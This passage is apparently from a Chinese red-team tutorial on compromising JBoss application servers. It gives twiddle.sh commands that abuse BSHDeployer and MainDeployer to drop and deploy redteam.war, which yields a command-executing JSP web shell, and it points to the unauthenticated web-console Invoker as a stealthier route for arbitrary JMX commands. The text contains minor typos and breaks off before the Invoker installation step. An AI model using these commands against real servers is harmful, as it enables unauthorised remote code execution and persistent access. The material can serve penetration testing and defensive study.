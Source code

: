 ##### 安装redteam.war文件

利用twiddle，可以使用DSHDeployer的createScriptDeployement()方法：

```
$ ./twiddle.sh -s scribus invoke jboss.deployer:service=BSHDeployer createScriptDeployment "‘cat redteam.bsh‘" redteam.bsh 

```

tedteam.bsh包含上面的BeanShell脚本，调用成功后JBoss服务器返回BeanShell创建的临时文件地址：

```
file:/tmp/redteam.bsh55918.bsh 

```

当BeanShell脚本执行部署后，会创建/tmp/redteam.war文件，现在就可以通过调用本地文件来部署了：

```
$ ./twiddle.sh -s scribus invoke jboss.system:service=MainDeployer deploy file:/tmp/redteam.war 

```

之后就可以访问redteam-shell.jsp来执行命令了。

#### Web Console Invoker

通过JMX控制台与RMI来控制JBoss服务器是最常用的方法。

除了这些还有更隐蔽的接口，其中之一就是Web控制台中使用JMXInvoker。

##### Web控制台

Web控制台与JMX控制台类似，也可以通过浏览器访问。

Web控制台的默认界面：

![enter image description here](http://drops.javaweb.org/uploads/images/bfd09f0647f5f2ae88f7cd9ebc2eca7955aa619b.jpg)

如果JMX控制台有密码保护的话，是不可以通过Web控制台访问MBean的函数的，需要登陆后才能访问。

##### Web控制台JMX Invoker

Web控制台除了可以看到组建的梳妆接口与JBoss服务器信息外，还可监视MBean属性的实时变化。

访问URL：

```
http://$hostname/web-console/Invoker 

```

这个Invoker其实就是JMX Invoker，而不局限于Web控制台提供的功能。

默认情况下，访问是不受限制的，所以攻击者可以用它来发送任意的JMX命令到JBoss服务器。

##### 安装redteam.war

用Web控制台的Invoker安装redteam.war文件。
